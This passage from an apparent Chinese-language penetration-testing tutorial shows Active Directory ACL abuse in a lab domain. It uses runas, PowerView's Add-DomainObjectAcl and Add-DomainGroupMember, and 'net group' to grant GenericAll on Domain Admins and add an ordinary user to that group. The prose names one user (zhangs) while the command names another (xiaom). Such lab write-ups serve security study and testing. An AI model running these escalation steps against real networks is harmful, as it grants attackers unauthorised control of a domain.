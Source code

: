 [![](https://p1.ssl.qhimg.com/t0135d284ebd1fcf91e.png)](https://p1.ssl.qhimg.com/t0135d284ebd1fcf91e.png)

此时再使用已经修改的密码结合runas命令就可以直接创建一个xxm权限的cmd窗口：

```
runas /noprofile /user:test\xxm cmd
```

运行之后会弹出一个xxm权限的cmd窗口，即可使用xxm权限执行任意命令

[![](https://p5.ssl.qhimg.com/t01d608deaf2b926fdb.png)](https://p5.ssl.qhimg.com/t01d608deaf2b926fdb.png)

#### <a class="reference-link" name="GenericAll%20on%20Group"></a>GenericAll on Group

环境和上文相同，GenericAll on Group说的是对一个组有GenericAll权限，查看用户组domain admins：

```
Get-NetGroup "domain admins"
```

[![](https://p3.ssl.qhimg.com/t01c9d6598b9561307c.png)](https://p3.ssl.qhimg.com/t01c9d6598b9561307c.png)

此时zhangs和xxm均为域内普通权限用户，然后在域管理员组domain admins的DACL中加入zhangs的GenericAll权限：

```
Add-DomainObjectAcl  -TargetIdentity "domain admins" -PrincipalIdentity xiaom -Rights  all -Verbose
```

[![](https://p1.ssl.qhimg.com/t01baa8c200335bc570.png)](https://p1.ssl.qhimg.com/t01baa8c200335bc570.png)

然后再win2012上使用命令查看domain admins的权限

```
Get-ObjectAcl  -ResolveGUIDs| ? `{`$_.objectdn -eq "CN=Domain  Admins,CN=Users,DC=test,DC=local"`}`
```

可以看到在结果中有一条SID为zhangs的SID，权限为GenericAll

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016bc4900a13410500.png)

然后尝试将xxm加入domain admins组：

```
net group "domain admins" xxm /add /domain
```

可以看到已经成功将xxm加入管理员组,然后再将xxm移除出domain admins了，并将DACL中的内容删除之后再尝试加入，发现已经被拒绝。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0173b0f2cc0064380f.png)

在zhangs具有这个权限的时候使用Powerviewer能够达到相同的添加用户到某个组的目的，不过使用net命令更方便一点

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'test'
```
